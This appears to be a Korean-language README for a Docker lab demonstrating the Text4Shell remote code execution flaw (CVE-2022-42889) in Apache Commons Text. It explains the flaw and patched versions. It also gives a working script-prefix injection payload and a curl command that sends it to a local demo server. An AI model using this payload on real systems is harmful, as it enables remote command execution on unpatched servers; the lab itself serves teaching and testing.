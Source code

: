 # Apache Commons Text 원격 코드 실행 취약점 (CVE-2022-42889)

Apache Commons Text의 원격 코드 실행 취약점 (CVE-2022-42889, 일명 Text4Shell)을 시연하는 Docker 기반 환경을 구성한다.

---

## 취약점 개요

| 항목 | 내용 |
|:---|:---|
| 취약점 ID | CVE-2022-42889 |
| 영향 라이브러리 | Apache Commons Text |
| 문제 기능 | 문자열 보간 (String Interpolation) |
| CVSS 점수 | 9.8 (심각) |
| 영향 받는 버전 | 1.5 ~ 1.9 |
| 패치된 버전 | 1.10.0 이상 |

---

## 취약점 발생 원리

Apache Commons Text의 `StringSubstitutor` 클래스는 `${prefix:name}` 형식의 문자열 템플릿을 평가한다.  
취약한 버전에서는 다음과 같은 위험한 접두사가 기본 활성화되어 있다.

- `script:` : JVM 스크립트 엔진을 통한 코드 실행
- `dns:` : DNS 레코드 조회
- `url:` : 외부 URL에서 데이터 로드

공격자는 악성 입력을 통해 서버 측에서 임의의 명령어를 실행할 수 있다.

악성 입력 예시는 다음과 같다.

```text
${script:javascript:java.lang.Runtime.getRuntime().exec('touch /tmp/hacked')}
```

### 디렉터리 구조
```text
CVE-2022-42889/
├── docker-compose.yml
├── Dockerfile
└── app/
    ├── pom.xml
    └── src/
        └── main/
            └── java/
                └── com/
                    └── example/
                        └── DemoApplication.java
```

### 시연
컨테이너 빌드 및 실행
``` text
docker-compose up --build -d
```
악성 입력 전달 (${script:javascript:java.lang.Runtime.getRuntime().exec('touch /tmp/hacked')} 인코딩 후, 입력)
``` text
curl "http://localhost:8080/test?input=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27touch%20%2Ftmp%2Fhacked%27%29%7D"
```
![PoC 요청 결과](./CVE-2022-42889/1.png)
컨테이너 내부 파일 생성 여부 확인
![PoC 요청 결과](./CVE-2022-42889/2.png)
